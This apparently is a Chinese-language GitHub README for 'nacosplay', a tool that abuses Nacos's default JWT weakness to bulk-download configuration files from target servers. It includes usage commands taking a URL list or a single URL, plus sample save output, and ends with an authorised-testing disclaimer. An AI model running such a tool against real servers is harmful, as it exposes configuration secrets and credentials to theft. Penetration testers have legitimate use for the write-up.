 # nacosplay
## nacos配置文件获取工具：通过nacos的默认jwt漏洞，一键获取nacos内的配置文件。
` a. nacosplay.exe -f .\url.txt
 b. nacosplay.exe -u http://XXX
 [+] Saving... XXX _ XXX
 [+] Saving... XXX _ XXX
 [+] Saving... XXX _ XXX
 [+] Saving... XXX _ XXX`
### 保存路径为相对路径的（/ip/ip_namespace.json）

![image](https://github.com/qianbenhyu/nacosplay/assets/32768810/c800c59c-c4a1-463c-9d6f-fa4cf88d7193)


![image](https://github.com/qianbenhyu/nacosplay/assets/32768810/e4c208d6-bb77-464f-b388-29dcf1e551fa)

### 注：每个命名空间默认获取不多于200条配置，实际项目中没遇到100条以上的。
### 告知：作者不承担用户非授权或其他有害行为导致的网络安全责任，该工具仅供合法授权无害化测试!
